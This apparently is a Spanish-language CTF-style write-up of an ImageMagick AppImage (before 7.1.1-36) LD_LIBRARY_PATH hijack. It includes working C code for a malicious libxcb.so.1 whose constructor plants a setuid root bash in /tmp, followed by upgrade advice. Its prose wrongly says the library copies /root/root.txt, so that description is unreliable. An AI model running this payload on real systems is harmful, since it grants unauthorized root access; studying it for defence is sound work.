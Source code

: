 
This script exploits a vulnerability in ImageMagick’s AppImage version (before **7.1.1-36**) that improperly handles LD_LIBRARY_PATH, allowing arbitrary library loading.  


Creamos la libreria maliciosa y ejecutamos imagemagick
```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("sudo install -m =xs $(which bash) /tmp/bash");
    exit(0);
}
EOF
```

![[Pasted image 20250217211424.png]]
![[Pasted image 20250217211512.png]]
#### Pasos de Explotación:

1. **Crea una Biblioteca Compartida Maliciosa (`libxcb.so.1`)**
    
    - El código C dentro de ella se ejecuta al cargarse y copia el archivo `/root/root.txt` a `/tmp/root.txt`.
    - Esto se logra utilizando el atributo `constructor`, que ejecuta automáticamente el comando `system("sudo install -m =xs $(which bash) /tmp/bash")`.
2. **Prepara un Archivo de Imagen**
    
    - Copia `entertainment.jpg` a `root.jpg`, posiblemente para desencadenar su procesamiento por ImageMagick.

---

#### ¿Por Qué Funciona?

- La aplicación AppImage de ImageMagick puede cargar incorrectamente `libxcb.so.1` desde un directorio controlado por el atacante debido a un manejo inadecuado de la variable de entorno `LD_LIBRARY_PATH`.
- Cuando ImageMagick se ejecuta, carga la biblioteca maliciosa, lo que desencadena la escalada de privilegios.

---

### Solución:

- Actualiza ImageMagick a la versión 7.1.1-36 o superior.
- Restringir el abuso de variables de entorno (`LD_LIBRARY_PATH`).

Este enfoque corrige la vulnerabilidad al evitar que se carguen bibliotecas no deseadas y limitando el uso indebido de variables de entorno.
